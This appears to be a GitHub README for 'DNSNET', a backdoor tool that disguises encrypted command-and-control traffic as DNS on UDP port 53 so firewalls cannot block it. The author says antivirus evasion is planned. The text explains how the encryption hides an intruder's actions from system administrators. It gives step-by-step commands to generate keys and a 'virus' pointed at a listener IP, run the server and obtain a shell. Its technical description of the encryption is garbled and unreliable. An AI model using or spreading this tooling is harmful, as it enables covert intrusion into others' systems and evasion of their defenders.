 # dnsnet


# Current Version: Alpha

# Logo:
![box](https://user-images.githubusercontent.com/72181445/155982020-2db1333f-74b7-4c3f-8178-f14a75a0a65d.png)

# Description:
DNSNET Is a backdoor that uses encrypted "dns" to communicate with the command & control server.


DNSNET Uses udp port 53 to make itself look like dns traffic, this means that firewalls can't block this port (without losing dns rsolving) and i will be adding av evasion.

# "But why encrypted?" Answer:
If someone notices your actions, the sysadmin or whatever can't see what you were trying to do so your opsec will not be compromised

# Update log:
Alpha: 10 times encryption and stabile server end

#In dev?: YES, This is the only project im working on currently

# How to use (REPLACE "Listener ip" with the c2 ip):
git clone https://github.com/R00tendo/dnsnet

cd dnsnet

apt install unrar

unrar e cryptography.rar

pip3 install termcolor

python3 key_generator.py 5 > keys

python3 virus_generator.py <Listener ip>

python3 server.py

and send the backdoor directory and get your shell
  
# Technical Details:
Encryption: Fernet 32bit encryption (that times the keys)
 

